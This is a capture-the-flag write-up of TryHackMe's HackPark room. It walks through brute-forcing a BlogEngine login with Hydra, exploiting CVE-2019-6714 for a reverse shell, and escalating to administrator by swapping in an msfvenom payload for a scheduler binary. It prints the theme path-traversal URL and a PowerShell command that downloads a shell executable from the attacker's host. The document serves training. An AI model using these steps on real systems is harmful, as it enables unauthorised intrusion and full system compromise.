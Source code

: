 # HackPark Writeup

## Overview

This is my writeup for the HackPark room on TryHackMe.  This room involves bruteforcing a site's login with Hydra, identifying and using a public exploit to gain access and then escalate your privileges.

This is a intermediate room so if you are more of a beginner, then this may be to challenging.  If you are new to Windows exploitation in general, I would recommend attempting the [Steel Mountain](/ctf-writeups/Steel Mountain) or [Alfred](/ctf-writeups/Alfred) rooms.

## How to Access

I compelted this room on TryHackMe.  You can access it [here](https://tryhackme.com/room/hackpark).

## Steps

#### Information Gathering

As always, I begin with an nmap scan:

```
$ nmap -sC -sV -oN scans/initial -Pn 10.10.237.113
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 00:01 BST
Nmap scan report for 10.10.237.113
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-22T22:49:47
|_Not valid after:  2021-11-21T22:49:47
|_ssl-date: 2021-05-23T23:01:42+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.14 seconds
```

As shown above, there is a website running on port 80.  The main page shows a picture of **pennywise** (the 1990 version):

![mainpage](screenshots/1_mainpage.png)

As I inspected the website, `gobuster` detected a login page:

![gobuster](screenshots/2_gobuster.png)

Navigating to this page shows a generic login form for BlogEngine:

![login form](screenshots/3_login_form.png)

#### Using Hydra to Bruteforce a Login

After trying a few default credential combinations, I booted up BurpSuite to intersept the requests as I log in:

![burpsuite](screenshots/4_burp_suite.png)

I then used Hydra to bruteforce the password for the admin user:

![hydra](screenshots/5_hydra.png)

#### Gaining Access

After I logged in, I found that the site is running Blog Engine version **3.3.6**.  Using searchsploit, I found that this version is vulnerable to remote code injection (RCE):

![searchsploit](screenshots/6_searchsploit.png)

I then copied this exploit (**CVE-2019-6714**) to my working directory and changed the listening IP address.  I then navigated to `http://<machine ip>/admin/app/editor/editpost.cshtml` and uploaded the file.  To do this, I created a Python HTTP server in the directory where the exploit was stored:

![upload](screenshots/7_upload.png)

Next, I nagivated to the base URL for the blog and overrided the theme `http://10.10.108.108/?theme=../../App_Data/files`.  This triggers the vulnerability.

I used netcat to catch the callback:

![netcat](screenshots/8_netcat_callback.png)

Running `whoami` on the machine shows that I am logged in as `iis apppool\blog`.  

#### Compromise the Machine

Even though I have gained access to the machine, the current shell is quite unstable.  So let's update the shell.  I did this by creating a payload through `msfvenom`:

![creating payload](screenshots/9_creating_payload.png)

I then uploaded this file to the system using powershell:

![uploading payload](screenshots/10_uploading_payload.png)

I also loaded up `msfconsole` and ran `use exploit/multi/handler` to catch the callback:

![upgraded shell](screenshots/11_updated_shell.png)

I then ran `sysinfo` and discovered that this system is running the **Windows 2012 R2 (6.3 Build 9600)** operating system.

![sysinfo](screenshots/12_sysinfo.png)

#### Privilege Escalation with Metasploit

At this point, you have to perform more enumeration on the machine in order to find points of vulnerability.  Although I managed to find the vulnerable binary, I was unable to find the abnormal service without looking at other writeups.  The abnormal service is **WindowsScheduler**.

I found the vulnerable binary by checking `C:\Program Files (x86)\SystemScheduler`:

![vulnerable binary](screenshots/13_vulnerable_binary.png)

Using this information, I created another payload using `msfvenom` and called it `Message.exe`:

![message.exe](screenshots/14_message_exe.png)

I then uploaded it using the `upload` command:

![uploading message.exe](screenshots/15_uploading_message_exe.png)

I then had to replace the binary which was already on the system:

![replacing binary](screenshots/16_replacing_binary.png)

Finally, I set up netcat once again to catch the callback when the new file was executed:

![netcat callback](screenshots/17_netcat_callback.png)

Now, I am logged in as the admin user with full privileges.  So, I then retrieved both flags (user.txt and root.txt):

![user.txt](screenshots/18_user_flag.png)

![root.txt](screenshots/19_root_flag.png)

#### Privilege Escalation without Metasploit

It is entirely possible to escalate your privileges without metasploit.  I did this by creating a similar payload using `msfvenom`:

![new payload](screenshots/20_new_payload.png)

I then powershell to upload the new payload to the `C:\Windows\Temp` directory:

```
C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://10.9.150.161:80/shell.exe' -OutFile shell.exe"
```

As before, I created a Python HTTP server where the new payload was stored.  

To enumerate the machine, I then uploaded winPEAS (download [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)).

Once uploaded, I executed winPEAS and found that this system was originally installed on **8/3/2019, 10:43:23 AM**.

And that's it!

## Summary and Feedback

This was a very challenging room, especially as I am fairly new to Windows exploitation.  I had quite a lot of difficulty actually finding the answer to some of the tasks (even with hints).  I would definitely recommend attempting other rooms, particularly if you're new to Windows exploitation.

